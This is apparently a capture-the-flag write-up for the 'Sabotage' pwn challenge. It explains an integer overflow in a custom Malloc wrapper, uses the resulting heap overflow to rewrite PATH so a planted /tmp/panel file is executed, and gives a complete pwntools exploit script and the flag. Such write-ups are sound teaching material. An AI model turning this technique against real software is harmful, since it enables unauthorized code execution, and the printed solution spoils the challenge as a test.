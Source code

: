 # Sabotage

## Challenge

We have a binary with custom wrappers functions `Malloc()`, `Calloc()`, and `Free()`.
These are like the standard glibc functions, except they store the size of the buffer along with the buffer itself in each allocation.

```c
int64_t * sym.Malloc(int64_t arg1) {
    int64_t *piVar1;
    ulong var_18h;
    ulong size;
    ulong var_8h;
    
    piVar1 = sym.imp.malloc(arg1 + 8);
    if (piVar1 == NULL) {
        piVar1 = NULL;
    }
    else {
        *piVar1 = arg1;
        piVar1 = piVar1 + 1;
    }
    return piVar1;
}
```

We are given a `quantum_destabilizer()` function.
This sets the `ACCESS` environment variable to "DENIED" if it is not already set.
It also allows us to write a file to `/tmp` with a name and contents of our choosing, however, path traversals are filtered out.

We are given a `enter_command_control()` function.
This sets the `ACCESS` environment variable to "DENIED" if it is not already set.
It then allows us to set the `ACCESS` environment variable to a string of our choosing, for which we specify the buffer size.
Lastly, it runs the `panel` shell command.

There are also the `combat_enemy_destroyer()` and `intercept_c2_communication()` functions.
The former allows us to attack an enemy ship, though we are guaranteed to lose.
The latter allows us to read data from `/dev/urandom`.
Both of these are useless to us.

## Solution

The `Malloc()` wrapper function is vulnerable to an integer overflow.
This will lead to the allocated chunk being much smaller than the size given, which allows us to overflow the heap buffer.
We can use this overflow to overwrite environment variables, as they are stored on the heap after the `putenv()` call in `quantum_destabilizer()`.

The file written to `/tmp` using `quantum_destabilizer()` is executable.
Thus, if we change `PATH` to point at `/tmp` and write a file with the filename `panel`, we can execute arbitrary shell commands.

For example, if we make the contents of the file `/bin/cat flag.txt`, it will print the contents of the flag when executing the `panel` command.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 46.101.30.188 --port 31879 sabotage
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('sabotage')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '46.101.30.188'
port = int(args.PORT or 31879)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'

io = start()

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Quantum destabilizer mount point: ", b"panel")
io.sendlineafter(b"Quantum destablizer is ready to pass a small armed unit through the enemy's shield:", b"/bin/cat flag.txt")

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"ACCESS code length: ", str(-1 % (2 ** 64)).encode())
io.sendlineafter(b"ACCESS code: ", flat({0x20: b"PATH=/tmp"}))

io.interactive()
```

## Flag

```
HTB{CISA_Advisory_ICSA-21-119-04_better_check_your_mallocs}
```
